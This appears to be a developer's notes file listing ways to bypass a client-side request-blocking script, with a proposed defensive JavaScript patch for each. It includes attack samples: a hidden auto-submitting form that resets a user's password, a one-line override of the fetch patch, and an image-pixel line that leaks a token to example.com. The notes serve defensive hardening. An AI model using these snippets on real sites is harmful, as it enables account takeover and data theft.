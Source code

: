 # POSSIBLE BYPASSES - FIXES WILL BE IMPLEMENTED WITH TIME. 



## 1.  Directly using <form> submissions

```html
<form action="/user/12345/password-reset/" method="POST">
  <input type="hidden" name="new_password" value="malicious123">
</form>
<script>document.forms[0].submit()</script>

```

Idea: Override HTMLFormElement.prototype.submit and intercept submit events globally:

```js
const originalSubmit = HTMLFormElement.prototype.submit;
HTMLFormElement.prototype.submit = function() {
    const action = this.action;
    if (!isAllowed(action) || isPasswordEndpoint(action)) {
        logBlockedRequest('form submit', action);
        throw new Error(`Blocked form submission to ${action}`);
    }
    return originalSubmit.apply(this, arguments);
};

document.addEventListener('submit', function(e) {
    const action = e.target.action;
    if (!isAllowed(action) || isPasswordEndpoint(action)) {
        e.preventDefault();
        logBlockedRequest('form submit', action);
    }
}, true);

```


## 2. Using iframe injection with same-origin forms
Idea: Deny iframe usage (troublesome to implement, need to write further logic for webgl & other site elements)

```js
if (window.top !== window.self) {
    console.warn('[Security] Prevented iframe embedding.');
    window.top.location = window.location.href;
}

```


## 3. Blob or Object URLs for code injection
An attacker could generate a malicious Blob or data: URL that executes fetch/XHR after being injected dynamically into the DOM.

Idea: Monitor dangerous element types like <script>, <iframe>, or <a> with suspicious hrefs

```js
new MutationObserver((mutations) => {
    mutations.forEach(m => {
        m.addedNodes.forEach(node => {
            if (node.tagName === 'SCRIPT' && node.src && !isAllowed(node.src)) {
                logBlockedRequest('script injection', node.src);
                node.remove();
            }
        });
    });
}).observe(document.documentElement, { childList: true, subtree: true });

```

## 4. Tampering with binding

```js
window.fetch = realFetch; // override the patch

```

NOT FOOLPROOF IDEA: Freeze or proxy the critical API
```js
Object.defineProperty(window, 'fetch', {
    value: window.fetch,
    writable: false,
    configurable: false
});
```

## 5. Custom transport layers (e.g. beacon, iframe postMessage)
## 6. Using non-standard header names
## 7. Data-exfil via DNS or image pixels
Even without fetch, an attacker can leak data via:
```js
new Image().src = "https://example.com/leak?token=xyz";
```
IDEA:  Patch Image, document.createElement('img'), and possibly setAttribute('src').
